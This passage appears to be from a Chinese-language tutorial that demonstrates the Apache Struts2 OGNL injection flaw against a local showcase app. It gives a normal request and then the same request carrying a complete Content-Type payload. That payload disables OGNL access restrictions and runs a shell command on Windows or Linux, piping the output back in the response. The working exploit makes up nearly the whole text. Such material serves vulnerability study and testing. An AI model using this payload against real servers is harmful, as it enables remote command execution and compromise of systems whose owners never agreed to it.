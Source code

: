 ```plain
GET /showcase.action HTTP/1.1
Host: 127.0.0.1:8080
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

下面，我们给它添加一个Content-Type请求头，并将包含multipart/form-data字符串的恶意payload作为它的值。

```plain
GET /showcase.action HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Content-Type:
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls -l').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=C7D2C0C8353A3D952C576487D42216E3
Connection: close

```
